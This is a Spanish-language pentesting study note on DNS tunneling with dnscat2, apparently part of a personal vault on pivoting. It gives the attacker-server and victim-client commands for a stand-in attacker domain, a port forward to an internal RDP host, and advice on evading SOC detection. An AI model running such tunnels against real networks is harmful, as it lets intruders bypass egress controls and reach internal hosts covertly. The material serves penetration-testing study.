

---
tags:
  - Pivoting
  - Pentesting/Movimiento-Lateral
  - Linux
Fecha de actualización: 2026-07-19
Nota previa: "[[09 - SOCKS tunneling con Chisel]]"
Nota siguiente: "[[11 - ICMP tunneling]]"
Area: "[[Pivoting y túneles.base|Pivoting y túneles]]"
---
---

<mark style="background: #ADCCFFA6;">El DNS tunneling encapsula datos dentro de consultas y respuestas DNS</mark>. Es el último recurso — lento — pero casi imparable: aunque el firewall bloquee todo el egress, <mark style="background: #FFB86CA6;">los hosts internos casi siempre resuelven dominios externos a través del DNS corporativo</mark>, y ese canal basta para tunelizar. `dnscat2` es la herramienta de referencia.

# Cómo funciona

El atacante controla un dominio y corre el servidor `dnscat2` como autoritativo para él. El cliente en el objetivo codifica el tráfico en subdominios y registros `TXT`/`CNAME`/`MX`. El DNS del cliente reenvía esas consultas hasta tu servidor, cerrando el túnel sin una sola conexión TCP directa.



# Uso

```shell-session
# Atacante (servidor autoritativo de tudominio.com)
attacker$ sudo dnscat2-server tudominio.com
```
```shell-session
# Objetivo
victim$ ./dnscat2 tudominio.com
# En la consola del servidor, al conectar el cliente:
dnscat2> window -i 1
command (win) > listen 127.0.0.1:1234 172.16.5.15:3389   # port forward por el túnel DNS
```

# Cuándo (y alternativas modernas)

<mark style="background: #8000E1A6;">Reserva el DNS tunneling para cuando TODO lo demás está capado</mark> — es órdenes de magnitud más lento que chisel. Alternativas: `iodine` (IP-over-DNS, más rápido para túneles IP completos) y los *DNS beacons* de C2 como `Sliver` o Cobalt Strike, que integran el canal DNS en la operación.

> [!warning]+ El DNS tunneling es de lo más detectable si el SOC mira
> Un volumen alto de consultas `TXT`, subdominios larguísimos y de alta entropía, y un solo dominio recibiendo miles de peticiones son firmas de libro para cualquier monitorización DNS (Zeek `dns.log`, detección de *DNS exfiltration*). Es **imparable a nivel de conectividad pero ruidoso a nivel de telemetría** — la contradicción que se analiza en [[14 - Detección y evasión de túneles]]. Úsalo lento y con paciencia, o asúmelo como canal de respaldo, no primario.

El otro canal covert cuando solo el `ping` escapa: [[11 - ICMP tunneling]].
